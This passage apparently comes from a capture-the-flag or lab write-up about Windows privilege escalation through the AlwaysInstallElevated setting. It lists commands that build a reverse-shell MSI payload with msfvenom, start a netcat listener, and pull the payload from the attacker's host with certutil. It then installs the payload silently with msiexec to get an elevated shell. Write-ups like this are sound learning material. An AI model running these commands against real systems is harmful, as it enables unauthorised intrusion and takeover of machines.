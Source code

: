 ## Privesc

- We can run winpeas

![always installed](../.res/2022-09-03-20-16-31.png)  

- Let's try this. [Here](https://csbygb.gitbook.io/pentips/windows/post-compromise-attack/alwaysinstallelevated#other-way) is a way to exploit the AlwaysInstalledElevated
- `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=5555 -f msi > gabrielle.msi`
- We set our listener `rlwrap nc -lvp 5555`
- We serve it with pythom
- We get it on the target `certutil.exe -urlcache -f http://10.10.14.2/gabrielle.msi gabrielle.msi`
- `msiexec /i C:\xampp\htdocs\omrs\images\gabrielle.msi /quiet /qn /norestart`
- We are root!!  
![root shell](../.res/2022-09-03-20-25-42.png)